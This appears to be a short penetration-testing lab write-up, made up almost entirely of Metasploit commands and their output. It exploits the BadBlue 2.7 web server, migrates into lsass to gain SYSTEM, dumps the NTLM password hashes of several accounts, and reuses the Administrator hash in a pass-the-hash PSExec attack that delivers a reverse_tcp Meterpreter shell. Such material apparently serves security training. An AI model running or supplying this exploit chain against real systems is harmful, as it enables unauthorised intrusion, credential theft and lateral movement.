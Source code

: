 ### Exploitation

```bash
use exploit/windows/http/badblue_passthru
set TARGET BadBlue\ EE\ 2.7\ Universal
run
```

```bash
sysinfo
    Computer        : ATTACKDEFENSE
    OS              : Windows 2016+ (10.0 Build 17763).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x86/windows

getuid
	Server username: ATTACKDEFENSE\Administrator
```

### Privilege Escalation

```bash
pgrep lsass
migrate 780
getuid
	Server username: NT AUTHORITY\SYSTEM
```

### [Pass-the-hash - PSExec](https://www.offsec.com/metasploit-unleashed/psexec-pass-hash/)

```bash
hashdump
```

```bash
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e3c61a68f1b89ee6c8ba9507378dc88d:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
student:1008:aad3b435b51404eeaad3b435b51404ee:bd4ca1fbe028f3c5066467a7f6a73b0b:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:58f8e0214224aebc2c5f82fb7cb47ca1:::
```

- **Use PSExec to login with `Administrator` user and its password hashes**

```bash
exit
search psexec
use exploit/windows/smb/psexec
options
set payload windows/x64/meterpreter/reverse_tcp
set SMBUser Administrator
set SMBPass aad3b435b51404eeaad3b435b51404ee:e3c61a68f1b89ee6c8ba9507378dc88d
exploit
```
